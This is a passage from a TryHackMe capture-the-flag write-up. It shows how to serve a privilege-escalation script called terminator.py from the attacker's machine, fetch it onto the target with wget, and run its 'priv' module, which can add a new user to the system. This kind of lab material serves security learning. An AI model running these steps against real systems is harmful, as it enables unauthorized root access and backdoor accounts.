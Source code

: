on your local machine, open a new terminal tab and go to 'the-terminator' directory where terminator.py is. then run the following to start a python web server:

`python3 -m http.server 8080`

![IMG-12](https://github.com/suffs811/writeups/blob/main/terminator-img/12.png)

on the target box, as user alice, run the following:

`wget http://<your_ip>:8080/terminator.py`

*your ip can be found by running `ip a` in your terminal or looking at the top right of the tryhackme attack box screen*

![IMG-13](https://github.com/suffs811/writeups/blob/main/terminator-img/13.png)

now, still on the target box,  run the terminator's privilege escalation module by going to 'the-terminator' directory and running:

`python3 terminator.py priv -u <new_user> -p <new_passwd>`

*the new_user and new_passwd are the new username and password you want to add to the target system in case the password files are writable*

![IMG-14](https://github.com/suffs811/writeups/blob/main/terminator-img/14.png)

>the answer to 'What SUID binary was the terminator able to use to gain escalated privileges?' can be found on the last printed line after gaining escalated privileges
